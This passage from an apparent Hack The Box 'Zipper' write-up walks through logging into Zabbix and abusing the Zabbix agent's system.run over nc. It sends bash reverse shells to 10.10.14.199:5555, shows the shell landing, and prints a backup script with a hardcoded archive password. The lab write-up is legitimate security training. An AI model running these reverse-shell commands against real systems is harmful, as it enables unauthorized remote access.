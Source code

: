 ### Zappix Agent API

Looks like we can use the SQL password to login as `Admin` on the Web GUI. And, it would appear from examining the "Configuration -> Hosts" section of the page, that our `Zipper` host has the ZBX agent installed and active.  Guess we need to get smart on the [Zappix Agent API](https://www.zabbix.com/documentation/3.4/en/manual/config/items/itemtypes/zabbix_agent)

We also know from our nmap scan the Zappix Agent is running on port 10050, referenced as well in this screenshot.

![zipper5](/images/zipper5.png)

Based on the API instructions, it seems like we can send out commands in this format:
`echo 'api command' | nc 172.17.0.1 10050`

```sh
$ echo "agent.hostname" | nc 172.17.0.1 10050
echo "agent.hostname" | nc 172.17.0.1 10050
ZBXDZipper
```

Let's get our reverse shell.

```sh
echo "system.run[bash -c 'bash -i >& /dev/tcp/10.10.14.199/5555 0>&1']" | nc 172.17.0.1 10050
```

This works, but the shell only stays open for a few seconds. Must be Zabbix closing the connection.  We can try using the `nohup` argument and background the command with `&`.

```sh
echo "system.run[bash -c 'nohup bash -i >& /dev/tcp/10.10.14.199/5555 0>&1 &']" | nc 172.17.0.1 10050
```

Finally, we're in and have a stable shell.

```sh
┌──(pl4stic㉿kali)-[~/htb/zipper]
└─$ nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.199] from (UNKNOWN) [10.129.143.244] 35476
bash: cannot set terminal process group (4592): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@zipper:/$ whoami
whoami
zabbix
```

In the `/home/zapper/utils` directory, there's a script named `backup.sh`

```sh
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
echo $?
```
